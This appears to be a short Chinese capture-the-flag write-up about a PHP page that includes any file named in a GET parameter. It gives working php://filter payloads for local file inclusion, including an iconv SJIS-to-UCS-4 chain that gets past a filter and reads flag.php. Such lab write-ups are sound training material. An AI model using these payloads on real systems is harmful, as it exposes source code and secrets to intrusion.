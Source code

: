 ![输入图片说明](image/4adb89382ed84b2ead2e6482b4ac00e9.png)

解析

```csharp
<?php
highlight_file(__FILE__);        // 高亮显示当前PHP文件源代码
include("./check.php");          // 包含检查文件（可能包含安全过滤逻辑）

if(isset($_GET['filename'])) {   // 检查是否传入filename参数
    $filename = $_GET['filename'];  // 获取用户传入的文件名
    include($filename);           // 直接包含该文件
}
?>
```

?filename=php://filter/convert.base64-encode/resource=./check.php，并没有得到flag

![输入图片说明](image/d134a1b776ab41ff9f26469a80b4c381.png)

尝试绕过
?filename=php://filter//convert.iconv.SJIS*.UCS-4*/resource=index.php

php://filter是PHP的一种输入/输出流过滤器，用于对资源进行转换操作。

convert.iconv.SJIS*.UCS - 4*表示使用iconv转换，将编码从SJIS相关编码转换为UCS - 4相关编码。

resource=index.php表示要处理的资源是“index.php”文件

将恶意代码用 SJIS 编码后，再通过 convert.iconv 转换为 UCS-4 编码

*通配符可能绕过了过滤规则中对特定编码格式的检查

URL 中的双斜杠 // 可能被某些解析器处理为单斜杠，绕过路径检查

?filename=php://filter//convert.iconv.SJIS*.UCS-4*/resource=./check.php但是并没有得到flag

![输入图片说明](image/99dbbea505b54ad78fe269d24b225540.png)

?filename=php://filter//convert.iconv.SJIS*.UCS-4*/resource=./flag.php得到flag

![输入图片说明](image/4fea8e929d9e4f14959069917aeeb105.png)
